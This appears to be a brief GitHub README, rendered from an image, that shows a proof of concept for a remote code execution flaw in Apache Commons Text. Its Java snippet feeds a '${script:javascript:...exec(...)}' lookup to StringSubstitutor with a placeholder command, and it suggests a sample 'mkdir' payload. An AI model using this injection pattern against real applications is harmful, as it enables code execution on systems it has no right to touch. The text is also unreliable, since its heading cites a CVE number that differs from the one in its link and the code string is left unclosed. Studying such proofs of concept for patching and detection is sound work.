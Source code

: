 # CVE-2022-42899
Apache Common Text starting from version 1.5 to 1.9 has Remote code execution vulnerability [CVE-2022-42899](https://www.cve.org/CVERecord?id=CVE-2022-42889). 

```java
final StringSubstitutor interpolator = StringSubstitutor.createInterpolator();
interpolator.replace("${script:javascript:java.lang.Runtime.getRuntime().exec('<payload to execute RCE>"); // Here you will pass payload which you want to execute such as 'mkdir /tmp/cve-2022-42899'
```
